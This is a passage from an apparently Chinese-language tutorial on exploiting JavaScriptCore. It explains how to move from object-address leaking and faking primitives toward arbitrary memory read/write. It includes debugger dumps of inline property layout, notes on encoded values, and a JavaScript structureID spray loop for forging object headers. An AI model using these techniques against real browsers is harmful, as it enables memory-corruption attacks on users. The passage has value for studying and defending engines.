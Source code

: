 现在可以泄漏，可以伪造，那么就要想办法扩大我们的控制范围，尽量达到任意读写的目的。

现在`fakeobj()`传入任何地址JSC都会把它当作是一个对象的指针，那么我们就可以先泄漏出一个对象的地址，再在这个对象地址的基础上加上一个偏移，使得伪造对象地址处的数据变得可控，前面提到过对象的属性会存储在butterfly中，但是当该对象不是一个数组而且属性不超过6个的时候，就不会有butterfly，而是将这些属性的值存放在对象内部连续的内存中：

```
&gt;&gt;&gt; test = `{``}`
[object Object]
&gt;&gt;&gt; test.a = 5.2900040263529e-310
5.2900040263529e-310
&gt;&gt;&gt; test.b = 2
2
&gt;&gt;&gt; test.c = 3
3
&gt;&gt;&gt; test.d = 4
4
&gt;&gt;&gt; test.e = 5
5
&gt;&gt;&gt; test.f = 6
6
&gt;&gt;&gt; describe(test)
Object: 0x108ab0280 with butterfly 0x0 (Structure 0x108a71260:[Object, `{`a:0, b:1, c:2, d:3, e:4, f:5`}`, NonArray, Proto:0x108ab4000, Leaf]), StructureID: 329
&gt;&gt;&gt;
```

可以看到`test`对象并没有butterfly，再来看看`test`内部：

```
(lldb) x/10gx 0x108ab0280
0x108ab0280: 0x0100160000000149 0x0000000000000000
0x108ab0290: 0x0001616161616161 0xffff000000000002
0x108ab02a0: 0xffff000000000003 0xffff000000000004
0x108ab02b0: 0xffff000000000005 0xffff000000000006
0x108ab02c0: 0x00000000badbeef0 0x00000000badbeef0
```

可以看到属性的值是被编码过的，这也提醒我们伪造数据的时候要减去0x10000000000。如果我们此时再增加属性，对象就会申请butterfly来存储数据，多余的属性值就会存储到butterfly中。

现在我们就可以开始伪造对象了，如果对JavaScript对象的结构还不是很了解的，推荐阅读：[Attacking JavaScript Engines](http://phrack.org/papers/attacking_javascript_engines.html)。

### <a class="reference-link" name="Fake%20Object"></a>Fake Object

伪造对象需要先伪造一个header，但是header中包含一个structureID，这个值不好预测而且必须要一个有效的ID才可以。这个时候就可以使用spray技术提前创建大量的对象。structureID虽然不好预测，但也不是随机的值，而是随着对象数量的增加而变大的。所以我们提前创建大量的对象，并选取一个中间的值作为structureID，大概率就是有效的。

```
var spray = []
for (var i = 0; i &lt; 1000; ++i) `{`
    var obj = [1.1];
    obj.a = 2.2;
    obj['p'+i] = 3.3;
    spray.push(obj);
`}`
```
